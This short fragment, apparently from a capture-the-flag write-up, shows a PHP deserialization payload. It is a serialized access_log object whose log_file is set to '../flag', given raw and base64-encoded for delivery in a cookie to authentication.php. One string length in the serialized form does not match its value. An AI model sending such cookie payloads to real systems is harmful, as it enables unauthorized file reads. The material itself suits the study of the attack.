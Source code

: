```php
"access_log": {
    $log_file="../flag.txt"
}
serialize: O:10:"access_log":1:{s:8:"log_file";s:11:"../flag";}
base64+urlencode: TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

- 在authentication.php中发现的，记得把cookie发向它而非index